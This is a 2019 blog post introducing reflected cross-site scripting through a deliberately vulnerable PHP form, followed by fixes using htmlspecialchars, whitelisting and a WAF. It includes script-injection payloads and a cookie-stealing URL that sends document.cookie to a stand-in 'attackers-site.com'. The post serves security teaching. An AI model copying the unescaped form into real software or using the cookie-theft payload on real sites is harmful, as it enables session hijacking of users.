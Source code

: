 ```yaml
---
title: "An Introduction to Cross-Site Scripting"
date: 2019-08-13
toc: true
toc_label: "Table of Contents"
categories:
  - blog
tags:
  - Web Security
  - Reflected XSS
  - PHP
---
```


# Introduction
So you've learned to create a PHP form recently and are very excited to set up a website with this form. You might think, "Ah, it's just a simple form, what could go wrong?". Well, you wouldn't be the first one to believe that. 

So let's take a look at a form that I have written.

```php
<!DOCTYPE html>
<html>
<body>
  <h1>Simple PHP Form</h1>
  <form method="GET" action="<?php echo $_SERVER['PHP_SELF'];?>">
    Name: <input type="text" name="fname">
    <input type="submit">
  </form>
  <?php
    if ($_SERVER["REQUEST_METHOD"] == "GET") {
      echo "<p>Hi " . $_GET['fname'] . "!</p>";
    }
  ?>
</body>
</html>
```

Below we can see the form in the browser.

![Simple Form](../../assets/images/xss/1.png)

After typing in my name, we get the following output.

![Input in Form](../../assets/images/xss/2.png)

Now you might be thinking "isn't this how the form should work". But what if someone submits the following text as input.

```html
<b>Abhishek</b>
```

We get the following output.

![Form Output](../../assets/images/xss/3.png)

Wait, what? So if you pass in an HTML tag, the output is modified based on the tag. This is because when the PHP code echos the content of 'fname,' the resulting HTML sent back from the server looks like this. 

```html
<p>Hi <b>Abhishek</b>!</p>
```

This can be verified by looking at the source.

![Page-Source-Inject-1](../../assets/images/xss/5.png)

When the browser looks at the HTML, it sees the `<b>` tag and thinks that text in between is supposed to be rendered bold. This ability to pass in HTML code is known as HTML injection. This has a lot of implications (well other than being able to stylize your output). What if we were to pass javascript code in the text field. Let's try the following input.

```javascript
<script>alert("test");</script>
```
We get the following output.

![JS in Form](../../assets/images/xss/4.png)

So why did this happen? Well, this is because like in the previous example, we were able to inject code into the page returned by the server. This can be seen by looking at the source. 

![Form-Source-JS](../../assets/images/xss/xss-1.png)

When the browser sees the `<script>` tag, it immediately runs the codes in between. What we saw above is called Cross-Site Scripting (XSS), more specifically Reflected XSS. It is reflected since the script passed in as input is bounced from the web server back to the user's browser. 

So what can we do with this? An alert box might not be harmful to the user, but what about the case where the user is logged in. If we pass the following as input

```javascript
<script>alert(document.cookie)</script>
```

we get the following output.

![cookie](../../assets/images/xss/6.png)

Since the cookie is retrievable, the attacker can, once he gets the cookie, log in as the user and wreak havoc. One way the attacker can retrieve the cookies is by setting up a web server and sending the URL with the malicious code to a target. When the user clicks on the link, his/her browser will then send the cookies to the attacker's server. An example of such an URL is as.

```
http://vulnerable-website?param=<script>window.location="http://attackers-site.com/?cookie=" + document.cookie</script>
```

The cookie is sent as a GET value which the attacker can then view on his/her server. 

# Well, how can we prevent XSS? 
Some of the ways we can prevent XSS are:

* Escaping all dynamic content, i.e., replace any characters that the browser will interpret with something called entities. For example, `<` is replaced with `&lt;`. This means that when the page is returned back to the user, the browser sees `&lt;`,  and renders it instead of interpreting it. Dynamic content is encoded by default by most modern frameworks. The following two functions can also be used.

```
htmlspecialchars(): encodes special characters to HTML entities,
strip_tags(): removes the tags altogether and returns the inner text.
```

Let's use the two functions and see what happens. 

```php
<!DOCTYPE html>
<html>
<body>
  <h1>Simple PHP Form</h1>
  <form method="GET" action='<?php echo htmlspecialchars($_SERVER["PHP_SELF"], ENT_QUOTES, "utf-8"); ?>'>
    Name: <input type="text" name="fname">
    <input type="submit">
  </form>
  <?php
    if ($_SERVER["REQUEST_METHOD"] == "GET") {
      $first_name = $_GET['fname'];
      $first_name = htmlspecialchars($first_name);
      $first_name = strip_tags($first_name);
      echo "<p>Hi " . $first_name . "!</p>";
    }
  ?>
</body>
</html>
```

Now when we try to input javascript code, we get the following ouput. 

![encoded](../../assets/images/xss/specialchars-1.png)

By looking at the source, we can see that the tags are converted to entities and are rendered instead of interpreted by the browser.

![source-encoded](../../assets/images/xss/sourcechars.png)


* Another step that can be added is to use a whitelist. If a field can accept only a finite number of different inputs, we can check if the user-supplied data is in the whitelist. If the user passes in invalid data, we can simply reject it.

* A more comprehensive solution is to use a Web Application Firewall (WAF). The WAF sits between the server and the client and filters out any message that contains malicious code. An open-source implementation of a WAF is that can be utilized (with care!) is provided by ModSecurity.

Note that this post serves to only give a basic idea on XSS. With attackers coming up with new XSS attack vectors regularly, we must keep ourselves updated to stay safe. For an in depth guide on XSS, check out OWASPs post on [XSS](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)). In a later post, I will talk about Stored XSS. 